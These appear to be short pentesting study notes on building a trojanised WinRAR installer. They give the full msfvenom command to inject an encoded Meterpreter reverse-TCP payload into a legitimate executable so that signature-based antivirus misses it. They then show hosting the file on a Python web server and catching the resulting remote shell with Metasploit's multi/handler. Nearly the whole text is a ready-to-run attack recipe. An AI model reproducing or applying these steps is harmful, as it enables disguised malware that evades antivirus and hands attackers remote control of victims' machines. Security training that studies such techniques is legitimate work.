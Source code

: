 * Purpose: To avoid signature-based AV solutions.
* Example of Windows Portable executables: WinRAR

* PRACTICAL
* `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Attacker's IP] LPORT=[port no.] -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar602.exe > ~/[path]/winrar.exe`
* -x --> To inject the payload into portable execuatble
* -k --> Maintain the original functionality of the executable
* Start a server to host the paylopad we just generated:
  * `sudo python -m SimpleHTTPServer 80`
  * Now in new terminal:
  * `msfconsole`
  * `use multi/handler`
  * `set payload windows/meterpreter/reverse_tcp`
  * `set lhost [IP]`
  * `set lport [port no]`
  * Execute the payload winrar.exe which will give a meterpreter session on the attacker's machine.
